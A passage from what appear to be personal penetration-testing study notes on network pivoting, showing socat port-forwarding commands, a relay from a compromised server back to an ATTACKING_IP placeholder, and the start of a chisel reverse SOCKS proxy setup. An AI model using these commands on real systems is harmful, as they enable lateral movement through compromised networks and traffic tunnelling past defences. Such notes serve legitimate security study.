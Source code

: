 this can be used to relay a shell to port 443 on attacking machine.

### port forwarding - easy

compromised server is .5 and target is 3306 of .10, run on compromised server:

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

* `tcp-l:33060` - victim is listening on 33060
* `tcp:172.16.0.10:3306` - forward to this IP and this address

### port forwarding - quiet

on attacking machine:

```bash
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

* connections go in 8000 and out 8001

on compromised server:

```bash
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

example:

```bash
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

the process that happens;

* you go to 127.0.0.1:8000 on web browser
* whatever goes into 8000 goes out of 8001
* anything going out of 8001 gets sent to compromised server, which is relayed to .10 on 80
* response goes to 8001, which goes to 8000 and forwards to us

### closing processes

```bash
jobskill %number
```

## chisel

chisel needs to be installed on both attacker and victim box

two modes: client and server

### reverse socks proxy

on attacker box:

```bash
./chisel server -p LISTEN_PORT --reverse &
```
